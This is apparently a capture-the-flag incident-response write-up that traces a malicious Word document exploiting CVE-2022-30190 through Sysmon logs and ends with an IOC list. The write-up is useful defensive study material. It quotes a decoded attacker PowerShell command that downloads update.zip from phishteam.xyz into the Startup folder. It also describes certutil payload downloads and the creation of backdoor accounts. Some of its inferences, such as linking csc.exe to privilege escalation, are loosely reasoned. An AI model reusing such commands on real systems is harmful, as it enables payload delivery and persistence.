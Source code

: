 # Tempest Box

Box Aim: log analysis, network packet analysis

**Scenario:** 

In this incident, you will act as an Incident Responder from an alert triaged by one of your Security Operations Center analysts. The analyst has confirmed that the alert has a CRITICAL severity that needs further investigation.

As reported by the SOC analyst, the intrusion started from a malicious document. In addition, the analyst compiled the essential information generated by the alert as listed below:

- The malicious document has a .doc extension.
- The user downloaded the malicious document via chrome.exe.
- The malicious document then executed a chain of commands to attain code execution.
- Investigation Guide

**﻿To aid with the investigation, you may refer to the cheatsheet crafted by the team applicable to this scenario:**

- Start with the events generated by Sysmon.
- EvtxEcmd, Timeline Explorer, and SysmonView can interpret Sysmon logs.
- Follow the child processes of WinWord.exe.
- Use filters such as ParentProcessID or ProcessID to correlate the relationship of each process.
- We can focus on Sysmon events such as Process Creation (Event ID 1) and DNS Queries (Event ID 22) to correlate the activity generated by the malicious document.


Write Up
---

Reasoning: The 2 information we know is that the user downloaded a malicious document from chrome. Thus, the whole event starts with chrome. Lets look at all the chrome related events by typing
chrome in Sysmon View and Timeline Explorer.

As standard practice, we should always check the hash of the artifacts.
![hashcheck](images/Tempest_01.png)

Since every thing started with chrome, lets check what we can find with chrome regardless of the questions. Below shows an image where we can start to understand the incident and construct the timeline and IOCs.

![first interaction](images/Tempest_02.png)
![first interaction](images/Tempest_02.1.png)

The incident started at 2022-06-20 16:58:55, where the user benimaru using the machine TEMPEST visited the domain phishteam.xyz with the IP:167.71.199.191. At 2022-06-20 17:12:58, a malicious word document free_magicules.doc was downloaded to the location: C:\Users\benimaru\Downloads.

Next, lets search for any related events related to free_magicules.doc.

![free_magicules.doc](images/Tempest_03.png)

and we found that the document was opened at 17:13:12 with a PID: 496. Now lets have a look at the same stuff in sysmon view.

![initialc2 connection](images/Tempest_04.png)

looking at the image, we see that the file was executed successfully and registry event has changed. Next, we want to check what did the doc do on/after execution, therefore we will search for all events with a PPID: 496 (process spawn by the doc).

![interesting command](images/Tempest_05.png)

There are 2 types of events happening after the doc was executed: change in registry and new process creation. Lets check the commands for process creation.

![download location](images/Tempest_06.png)

Looking at the payloads and the registry value, the registry event might not be related to the .doc file. If we look at the executed command, we find that the doc has executed a very long command at 17:13:35, and then used NGenTask to stop event: 416 and 412 at 17:22:09.

with some googling, we can see that the `msdt.exe` at the start of the command is associated with the CVE-2022-30190 exploit.
If we decode this base64 command: `$app=Environment]::GetFolderPath('ApplicationData');cd "$app\Microsoft\Windows\Start Menu\Programs\Startup"; iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip; Expand-Archive .\update.zip -DestinationPath .; rm update.zip;`, we know that a new file was downloaded. Lets check all the events related to update.zip.

![update](images/Tempest_07.png)
![logon](images/Tempest_07_1.png)

Looking at the log, only 1 log was associated with update.zip and not much useful info we can find, however, we know that the file was created at 17:13:37, with a PID of 2628 and was downloaded to 'C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup'.

As before lets search for anything related to the PID 2628 and we will see if there are any children process related to it(meaning with a PPID:2628)

![2628](images/Tempest_08.png)
![2628](images/Tempest_08_1.png)

The log shows that 2628 sprawned a whole bunch of files/IOCs. Lets see anything with a PPID:2628

![2628](images/Tempest_08_2.png)

So it's basically just downloaded a bunch of files with cmdline file extensions, cmdline isn't a standard file extension, but we can suspect there will be a bunch of cmd execution following the file update.zip.

if we search each of these cmdline file, we will find that that all point to the 2 exe 'csc.exe' and 'cvtres.exe'. With a little googling, these 2 are associated with privilege escalation. we can assume the attack is trying to move literally.

Going back to update.zip. The files was in the startup folder, in many case, we can assume he is trying to install or do something and then restart, which will give him priv access. Thus, lets search for account log in info. On successful logon, event 4624 will be logged to windows event logs. lets look at what a logon event around/after 17:13:37. As well as having a sysmon event ID 1 process creation.

![logon](images/Tempest_09.png)

So there is an priv account logon at 17:13:39, we can quite sure say that the attacker has gained root access, but lets see what happened after 17:13:39 in sysmon.

![post root comp](images/Tempest_10.png)
![post root comp](images/Tempest_11.png)

So after 17:13:39, we see there are a lot of network connections from the benimaru account, we can assume  those are C2 servers and go through them 1 by 1. Since there are too many logs, we will look at id:1 so we can see all process creation. If we go through all the commands after 17:13:39, 
it is hard to tell which commands are legitimate and which are suspicious. However, looking at the parent process can help. 

![post root comp](images/Tempest_12.png)
![post root comp](images/Tempest_13.png)
![post root comp](images/Tempest_14.png)

A bunch of very interesting commands started after 17:15:10, a powershell was spawned with the hidden flag, and then certutil was used to get a first.exe at the Downloads dir. It was then executed, and a whoami.exe was executed in the system32 dir so on. Lets check out these 2 exe in sysmon view.

![post root comp](images/Tempest_15.png)
![post root comp](images/Tempest_16.png)
![post root comp](images/Tempest_17.png)
![post root comp](images/Tempest_18.png)

So we see first.exe is reaching out to another C2 server with an IP:167.71.222.162 and domain:resolvecyber.xyz, and if we look at the whoami.exe, we can confirm that it ran a powershell command to check privilege at 17:19:16, also, there are another payload called final.exe was downloaded to the Programs dir at 17:21:38. Lets go back to timeline explorer to see the associated events.

![post root comp](images/Tempest_19.png)

So we see the final.exe file is from the spf.exe, and if we look at the timeline without filtering any events. we can be fairly certain that the attacker gained root access after 17:21:34 using the final.exe. Now, lets see all the commands executed after they gained root access.

![post root comp](images/Tempest_20.png)
![post root comp](images/Tempest_21.png)
![post root comp](images/Tempest_22.png)
![post root comp](images/Tempest_23.png)
![post root comp](images/Tempest_24.png)

So looking at the logs, the attacker is using net.exe to execute commands. The attacker tries to create 2 accounts shion and shuna at first but forgot to add the /add flag in net on their first try and after creation of the accounts, they added the shion to administrator group.

**IOC List**
- Domain Name: phishteam.xyz (IP: 167.71.199.191), resolvecyber.xyz (IP: 167.71.222.162)
- free_magicules.doc
- update.zip, first.exe, final.exe, spf.exe, net.exe
- Accounts: shion, shuna




